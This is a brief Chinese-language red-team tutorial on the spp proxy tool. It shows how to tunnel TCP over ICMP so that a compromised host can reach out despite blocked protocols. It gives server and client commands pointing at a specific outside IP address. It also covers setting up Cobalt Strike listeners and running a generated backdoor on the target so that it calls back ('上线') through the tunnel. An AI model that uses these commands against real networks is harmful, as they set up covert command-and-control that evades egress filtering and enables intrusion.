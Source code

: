 spp-支持特殊协议-上线
<https://github.com/esrrhs/spp>
支持的协议：tcp、udp、icmp、http、kcp、quic等
支持的类型：正向代理、反向代理、socks5正向代理、socks5反向代理。

在对抗项目甲有遇到过一些极端环境，比如目标封了：tcp，http等常用出网的协议。
但是：icmp，dns等协议可能因为业务需要或者管理者安全意识不到位导致没有封干净。在这种场量下就可以使用这些容易被忽视的协议进行隧道的搭建。

## **服务端**
监听icmp数据
```
./spp -type server -proto ricmp -listen 0.0.0.0
```
## **客户端**
将本地8082的tcp封装成icmp，转发给服务端的8081端口
```
spp -name "test"-type proxy_client -server 47.94.236.117 -fromaddr :8082 
-toaddr :8081 -proxyproto tcp -proto ricmp
```
^
## **CS使用icmp上线**
CS服务端，spp监听icmp数据，并创建监听器监听8081端口
```
/spp -type server -proto ricmp -listen 0.0.0.0
```
```
监听器1：http 47.94.236.117 8081
监听器2：http 127.0.0.1 8082
生成tcp后门：监听器2
```

目标机
```
运行spp客户端
spp -name "test"-type proxy_client -server 47.94.236.117 -fromaddr :8082 
-toaddr :8081 -proxyproto tcp -proto ricmp

并运行后门
成功上线
```
